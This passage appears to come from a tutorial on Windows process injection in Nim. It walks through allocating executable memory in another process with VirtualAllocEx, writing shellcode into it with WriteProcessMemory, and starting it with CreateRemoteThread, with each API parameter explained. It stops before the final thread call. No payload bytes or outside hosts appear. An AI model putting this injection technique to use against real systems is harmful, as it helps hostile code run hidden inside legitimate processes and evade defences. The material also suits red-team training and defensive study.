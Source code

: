 ```nim
let mPointer = VirtualAllocEx(pHandle,NULL,cast[SIZE_T](shellcode.len),MEM_COMMIT,PAGE_EXECUTE_READ_WRITE)
```

Once we have the memory allocated, let's write our shell code to the memory.

For this we can use [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)

```c++
BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess,
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
);
```

* The process handle that we created.
* A pointer to the base address in the specified process to which data is written.
* A pointer to the shellcode.
* The size of the memory needed. For this, we cast the length of our shellcode array as the value.
* A pointer to a variable that receives the number of bytes transferred into the specified process. This parameter is optional, so we can set it to NULL.

```nim
WriteProcessMemory(pHandle,mPointer,unsafeAddr shellcode,cast[SIZE_T](shellcode.len),NULL)
```

Once we have the shellcode written to the memory, we can use CreateRemoteThread to execute a thread with the shellcode

```c++
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```

* The process handle that we created.
* A pointer to a SECURITY_ATTRIBUTES structure that specifies a security descriptor for the new thread and determines whether child processes can inherit the returned handle. We can set it to NULL.
* The initial size of the stack, in bytes. We can set this parameter to 0, so the new thread uses the default size for the executable.
* A pointer to the application-defined function of type LPTHREAD_START_ROUTINE to be executed by the thread and represents the starting address of the thread in the remote process.
* A pointer to a variable to be passed to the thread function. We can set it to NULL.
* The flags that control the creation of the thread. We can set it to 0, so the thread runs immediately after creation.
* A pointer to a variable that receives the thread identifier. We can set this parameter to NULL, so the thread identifier is not returned.
